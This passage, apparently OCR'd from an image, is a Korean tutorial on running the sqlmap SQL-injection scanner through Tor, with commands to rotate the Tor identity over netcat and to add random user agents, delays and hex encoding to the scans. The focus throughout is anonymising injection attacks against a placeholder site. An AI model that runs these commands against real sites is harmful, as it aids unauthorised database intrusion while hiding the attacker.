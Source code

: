 ```bash
echo -e 'AUTHENTICATE ""\r\nSIGNAL NEWNYM\r\nQUIT' | nc 127.0.0.1 9051
```

---

## 2. SQLMap 설치 및 기본 사용법

### 설치 (Kali Linux)

```bash
sudo apt install sqlmap -y
```

### 기본 명령어

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch
```

---

## 3. Tor + SQLMap 기본 조합

### 최소 구성

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 --check-tor \
  --batch
```

### 옵션 설명:

- `--tor`: Tor 네트워크 사용
- `--tor-type=SOCKS5`: SOCKS5 프록시 사용 (Tor의 기본)
- `--check-tor`: Tor 연결 확인
- `--batch`: 모든 대화형 질문에 기본값으로 응답

---

## 4. 고급 익명성 옵션 조합

### 익명성 강화 설정

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 --check-tor \
  --random-agent \
  --delay=3 \
  --timeout=30 \
  --retries=3 \
  --hex \
  --output-dir=/tmp/sqlmap_tor_results
```
